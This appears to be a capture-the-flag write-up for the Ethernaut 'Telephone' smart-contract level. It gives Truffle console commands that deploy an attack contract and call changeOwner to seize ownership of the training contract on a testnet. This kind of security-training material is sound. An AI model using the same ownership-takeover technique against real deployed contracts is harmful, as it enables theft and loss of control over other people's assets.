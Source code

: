 # Telephone

[Telephone](https://ethernaut.openzeppelin.com/level/0x1ca9f1c518ec5681C2B7F97c7385C0164c3A22Fe)

<BR />

## Live Attack
```BASH
truffle console --network goerli
```

```JS
//Identify the account index
// 0xCbB9660eA60B895443ef5001B968b6Ae4c0AaA18
accounts
sender = accounts[5]

telephone = await Telephone.at('0x345E615311dee8FF11889FF57ED615Db3905f776')
telephone.owner()
telephone.address

attack = await TelephoneAttack.deployed()
attack.target()
await attack.changeOwner({from: sender})

telephone.owner()
```